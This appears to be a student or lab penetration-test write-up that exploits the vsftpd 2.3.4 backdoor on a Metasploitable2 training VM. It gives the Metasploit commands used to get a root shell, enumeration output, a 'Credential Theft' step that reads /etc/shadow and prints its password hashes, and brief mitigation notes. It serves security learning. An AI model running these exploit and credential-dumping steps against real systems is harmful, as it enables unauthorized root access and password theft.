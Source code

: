 1. Vulnerability Profile
Detail	Description
Vulnerability   Discovered	vsftpd 2.3.4 Backdoor
CVE Reference	CVE-2011-2523 (This vulnerability is widely documented and highly critical).
Exploit Target	Metasploitable2 VM (192.168.56.4)
Risk Severity	Critical (Allows unauthenticated remote root command execution).
Attack Vector	FTP Service on Port 21.

2. Exploitation Steps (Gaining Root Access)
The primary goal was to bypass the login prompt and obtain a root shell using the Metasploit Framework.

2.1. Metasploit Configuration
The following commands were executed in the msfconsole to prepare and launch the exploit:
Select exploit module : 
    use exploit/unix/ftp/vsftpd_234_backdoor
Set Target IP : 
    set RHOSTS [192.168.56.4]
set PAYLOAD :
    set PAYLOAD cmd/unix/interact
Execute exploit :
    exploit

Proof of Access: The interactive shell was established, and the following command confirmed the highest privilege level
whoami
root

System and OS Enumeration (Sysinfo)
    uname -a
    Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:512             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:52960           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:513             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:2049            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:514             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:35048           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:8009            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:6697            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:1099            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:6667            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:5900            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:8787            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:8180            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:1524            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN     
tcp        0      0 192.168.56.4:53         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:47034           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:37725           0.0.0.0:*               LISTEN     
tcp6       0      0 :::2121                 :::*                    LISTEN     
tcp6       0      0 :::3632                 :::*                    LISTEN     
tcp6       0      0 :::53                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::5432                 :::*                    LISTEN     
tcp6       0      0 ::1:953                 :::*                    LISTEN     
udp        0      0 0.0.0.0:2049            0.0.0.0:*                          
udp        0      0 0.0.0.0:59909           0.0.0.0:*                          
udp        0      0 192.168.56.4:137        0.0.0.0:*                          
udp        0      0 0.0.0.0:137             0.0.0.0:*                          
udp        0      0 192.168.56.4:138        0.0.0.0:*                          
udp        0      0 0.0.0.0:138             0.0.0.0:*                          
udp        0      0 0.0.0.0:32920           0.0.0.0:*                          
udp        0      0 0.0.0.0:47008           0.0.0.0:*                          
udp        0      0 0.0.0.0:34596           0.0.0.0:*                          
udp        0      0 192.168.56.4:53         0.0.0.0:*                          
udp        0      0 127.0.0.1:53            0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:*                          
udp        0      0 0.0.0.0:69              0.0.0.0:*                          
udp        0      0 0.0.0.0:111             0.0.0.0:*                          
udp        0      0 0.0.0.0:757             0.0.0.0:*                          
udp6       0      0 :::53                   :::*                               
udp6       0      0 :::59391                :::*    


Credential Theft (Hashdump)

cat /etc/shadow 
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::

Impact and Mitigation

Impact: Total Compromise. An attacker has full, persistent control over the system, can read, modify, and delete any file, and can use this machine as a pivot point to attack other systems on the network.
Mitigation: The vsftpd service must be immediately disabled or uninstalled. The system requires a comprehensive patch management cycle to eliminate all legacy vulnerabilities.